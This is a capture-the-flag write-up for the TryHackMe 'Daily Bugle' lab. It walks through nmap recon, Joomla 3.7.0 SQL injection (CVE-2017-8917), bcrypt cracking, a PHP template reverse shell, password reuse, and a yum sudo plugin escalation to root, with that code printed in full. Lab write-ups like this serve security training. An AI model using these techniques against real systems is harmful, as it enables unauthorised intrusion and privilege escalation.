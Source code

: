 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)

# Daily Bugle
*Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.*

## Reconnaissance and Enumeration
Let's see what we have today:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV -A 10.10.160.251     
[sudo] password for marco: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-24 21:54 CET
Nmap scan report for 10.10.160.251
Host is up (0.049s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)
```

A brief view of the open ports:
- **Port 22**: SSH. No key no party
- **Port 80**: Apache httpd web server. On `robots.txt` there are a lot of disallowed links :)
- **Port 3306**: MariaDB DBSM. Not accessible by our IP address

We run gobuster as usual, just to be sure, but all the useful endpoints are listed in `robots.txt`.

### A check on port 80's secret dirs
The most interesting link in robots.txt is `/administrator`, so it is the first one to be checked out. It contains a Joomla login form, which means that on httpd is running a Joomla instance with the website.<br>
To get Joomla's version we can see the XML manifest at the link `/administrator/manifests/files/joomla.xml`.
<details>
  <summary>Spoiler warning</summary>
    Our is version 3.7.0
</details>

## Hack Joomla
Searching quickly on Google we find very easily that this version is vulnerable to SQL injection [(CVE-2017-8917)](https://www.cvedetails.com/cve/CVE-2017-8917/). A lot of automated exploits are available on the net, I chose [Joomblah](./joomblah.py).<br>
Running Joomblah we can dump the user table. This is the content:
```
['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```

The long string is the password hash and we need to crack it in order to access the admin panel.

### Hash crack
We can identify the hash with `hashid`: it's a bcrypt, a brute force "resistant" hash. We can still crack it, but it will take some time.
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Daily_Bugle]
└─$ john pw.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
...
spiderman123     (?)                                                                                               
1g 0:00:05:23 DONE (2022-03-24 23:32) 0.003094g/s 145.0p/s 145.0c/s 145.0C/s thelma1..setsuna                      
Use the "--show" option to display all of the cracked passwords reliably                                           
Session completed. 
```

### Reverse shell
After gaining access to the admin panel and looking around it becomes obvious that the point of injection is in the template of the site: it's possible to modify the code for php pages directly from the browser!<br>
Obviously we can substitute the index page code with a [reverse shell](./reverse-shell.php). Loading the page will send us a reverse shell.


## Privilege Escalation
Unfortunately the shell is not logged with any user, so we need to escalate our privileges

### No user -> jjameson
Looking around there's seems to be nothing to escalate from here, but we can reed the website configuration file `/var/www/html/configuration.php`. 
This jjameson is a dummy... DB pwd is the same of jjameson account.

<img align="center" src="./NotAtHome.jpg" alt="drawing" style="width:300px;"/>

Entering jjameson account we read user flag :)

### jjameson -> root
Now in jjameson account we need to find a way to escalate to root. Running `sudo -l` we notice that yum is the only executable that we can run with root privileges.
With a little Google Fu, it's easy to find a vuln on [GTFOBins](https://gtfobins.github.io/gtfobins/yum/). With the following code we:
1. create a yum plugin that will spawn a shell
2. enable the plugin
3. run it with root privileges and gain the root shell

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
luginconfpath=$TFEOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Now the root flag became accessible in `/root/root.txt`